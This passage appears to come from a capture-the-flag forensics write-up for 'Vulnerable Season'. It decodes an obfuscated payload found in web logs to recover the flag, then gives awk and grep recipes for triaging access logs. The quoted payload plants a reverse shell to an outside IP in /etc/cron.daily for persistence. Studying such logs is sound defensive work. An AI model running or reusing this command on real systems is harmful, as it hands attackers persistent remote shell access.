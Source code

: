 ![](/assets/obsidian/ad60c89cf4cae43d96b861183c877cc1.png){:target='_blank'}

Payload :

```bash
upg_datatable&field=field:exec:echo "sh -i >& /dev/tcp/82.179.92.206/7331 0>&1" > /etc/cron.daily/testconnect && Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64 -d|rev:NULL:NULL
```

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Vulnerable Season]
└─$ echo $(Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64 -d|rev)
HTB{L0g_@n4ly5t_4_bEg1nN3r}
```

### Additional - Better method to analyze web logs

> **Key**
> 1. Get statistic
> 2. Find abnormal (Most/Least amounts)
> 3. Follow `identifier` to find related actions
{: .prompt-tip }

```bash

# Find IPs with most connections
cat access.log | awk '{print $1}' | sort | uniq -c | sort -n

# Find least ammount of useragent from the IP (Most ammount would be scanner)
cat access.log | grep 82.179.92.206 | awk -F\" '{print $6}' | sort | uniq -c | sort -n

# Find requests made by a useragent
cat access.log | grep 'Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0'
```
